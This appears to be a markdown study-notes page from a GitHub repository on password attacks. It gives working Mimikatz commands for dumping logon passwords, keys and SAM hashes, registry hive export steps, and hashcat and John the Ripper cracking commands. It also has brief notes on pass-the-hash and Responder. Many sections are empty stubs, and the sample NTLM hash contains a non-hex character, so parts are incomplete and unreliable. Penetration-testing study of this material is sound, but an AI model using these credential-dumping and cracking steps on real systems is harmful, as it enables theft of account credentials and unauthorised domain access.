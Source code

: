 ## Passwords

- [Passwords](#passwords)
- [Mimikatz](#mimikatz)
    - [Mimikatz LSADump::SAM](#mimikatz-lsadumpsam)
    - [Mimikatz Pass The Hash](#mimikatz-pass-the-hash)
  - [Responder](#responder)
  - [Password cracking](#password-cracking)
    - [OnlineHashCrack.com](#onlinehashcrackcom)
    - [Cain and abel](#cain-and-abel)
    - [John the Ripper](#john-the-ripper)
    - [HashCat](#hashcat)
    - [THC Hydra](#thc-hydra)
    - [Aircrack-ng](#aircrack-ng)
    - [L0phtcrack and ophcrack](#l0phtcrack-and-ophcrack)
    - [Dictionary Attack](#dictionary-attack)
    - [Spidering :](#spidering-)
    - [Hybrid attacks eg James1](#hybrid-attacks-eg-james1)
    - [Pass The Hash PtH](#pass-the-hash-pth)

## Mimikatz

```bash
# elevate
privilege::debug
# elevate
token::elevate
# log
log 
# or log to named file
log mimikatz.log
# dump passwords
sekurlsa::logonpasswords 
sekurlsa::logonpasswords full
# get hashes
dpapi::cache //load
# get keys
sekurlsa::ekeys
```

#### Mimikatz LSADump::SAM

Get All Hashes From System

```bash
# Export Registry (Powershell)
reg save HKLM\SAM sam.hiv
reg save HKLM\SYSTEM system.hiv
# Mimikatz elevate
privilege::debug
token::elevate
# Mimikatz dump LSA hashes
cd c:\path\to\mimikatz\executable
log hash.txt
lsadump::sam sam.hiv system.hiv
```

Now edit the file so the data is in this format  username:NTLMHash

  Philip:0aca9df100f9bc3a68a50fda1812636g

Copy this file to HashCat and run the command

```bash
hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst 
```

and any password matches will show up.

#### Mimikatz Pass The Hash

We can now use these credentials to log into a domain!

cal

### Responder

Obtains the hash over the network


### Password cracking

#### OnlineHashCrack.com

https://www.onlinehashcrack.com

#### Cain and abel

#### John the Ripper

John The Ripper : use to find a password from a hash

```bash
john --format=nt hash.txt
```

#### HashCat

```bash
hashcat -m 1000 -a 3 hash.txt
```

#### THC Hydra

#### Aircrack-ng

#### L0phtcrack and ophcrack

#### Dictionary Attack

       splashdata.com

       Daniel Miessler github
       
#### Spidering : 

search in plain text all files on computer, then use these to try as passwords
       
#### Hybrid attacks eg James1

#### Pass The Hash PtH

if hash is obtained, submit it directly

       Combat this -  should only log on to DC with domain admin
                            credentials, also
                            Restricted Admin mode restricts where domain admin
                                          credentials can be used
                                          
Note : live system : might be possible to obtain from memory (RAM)

